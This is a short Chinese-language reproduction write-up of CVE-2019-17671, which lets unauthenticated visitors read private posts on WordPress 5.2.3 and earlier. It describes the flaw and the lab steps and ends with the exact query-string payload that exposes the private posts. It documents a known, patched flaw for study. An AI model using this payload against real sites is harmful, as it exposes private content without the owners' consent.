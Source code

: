 # （CVE-2019-17671）Wordpress 未授权访问

> 原文：[http://book.iwonder.run/0day/Wordpress/10.html](http://book.iwonder.run/0day/Wordpress/10.html)

## 一、漏洞简介

wordpress 爆出最新的查看未经身份验证的文章漏洞， 该漏洞源于程序没有正确处理静态查询， 攻击者可利用该漏洞未经认证查看部分内容

## 二、漏洞影响

WordPress <= 5.2.3

### 三、复现过程

![image](img/8d4b5a0670aadfb7dbdcc387562ec6c4.png)

## 登陆后台新建私密页面

![image](img/9f1dd2dffc3862589ae4adf3d55b8b41.png)

### 随便填入内容，选择私密，发布

![image](img/d84920a27a85b5b85a82fb5098737fa1.png)

### 访问前台页面，退出登陆，模拟外部访问

![image](img/f63e91da5157255ab181d5d2ce7fadc0.png)

### 漏洞利用

直接访问，查看不了私密文章

![image](img/820e7abb47c3b18220b71cd580fa54d8.png)

输入 payload 访问，即可未授权访问所有文章

```
url+/?static=1&order=asc 
```

![image](img/ffcd53d15d7b729c8210e40382990197.png)

